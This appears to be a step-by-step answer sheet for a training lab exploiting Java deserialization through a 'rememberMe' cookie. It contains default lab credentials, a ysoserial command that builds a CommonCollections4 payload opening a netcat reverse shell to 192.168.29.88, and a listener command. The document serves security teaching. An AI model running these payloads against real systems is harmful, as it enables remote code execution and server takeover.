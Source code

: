 # Java Deserialization Answersheet

**Step 1:** Click on "Java Website: 16661" link
![Usage](1.png)
<br /> <br />

**Step 2:** Provide the following credential and tick the "Remember Me" option and click on Submit button.
```
Username: admin
Password: password
```
Note: The registration functionality is disabled for this application.
![Usage](2.png)
<br /> <br />

**Step 3:** Capture the HTTP request and send this request to repeater "Right Click -> Send to Repeater".
![Usage](3.png)
<br /> <br />

**Step 4:** Click on "send" button and observe that the server respond with "rememberMe" cookie which has java serialized magic string starting with "rO0".
![Usage](4.png)
<br /> <br />

**Step 5:** Observe the serialized value after decode it with Base64.
![Usage](5.png)
<br /> <br />

**Step 6:** Forward the request captured in **Step 3** and click on "Login" button.
![Usage](6.png)
<br /> <br />

**Step 7:** Download the YSoSerial utility from following location, and use the following command to check the payload available.
https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
```
java -jar ysoserial-master-SNAPSHOT.jar
```
![Usage](7.png)
<br /> <br />

**Step 8:** Capture the IP address and use that to generate the reverse shell payload using following command and capture the generated payload.
```
java -jar ysoserial-master-SNAPSHOT.jar CommonCollections4 "nc 192.168.29.88 4444 -e /bin/bash" | base64 -w 0
```
![Usage](8.png)
<br /> <br />

**Step 9:** Start the listener using following command
```
nc -nlvp 4444
```
![Usage](9.png)
<br /> <br />

**Step 10:** Replace the payload generated in **Step 8** in "RememberMe" parameter and click on "send" button to send request to the server.
![Usage](10.png)
<br /> <br />

**Step 11:** Received the reverse shell and obtained the server information using whoami, uname -a, ifconfig.
![Usage](11.png)
<br /> <br />